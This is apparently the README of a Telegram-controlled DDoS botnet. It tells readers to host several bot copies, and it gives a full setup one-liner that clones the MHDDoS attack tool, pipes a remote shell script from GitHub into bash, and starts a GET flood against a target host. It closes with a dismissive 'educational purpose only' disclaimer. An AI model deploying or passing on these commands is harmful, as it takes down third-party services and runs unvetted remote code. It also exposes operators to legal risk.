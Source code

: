 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `

<br><br>

The installation tutorial is not finished, if you have any problems I can help you.

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
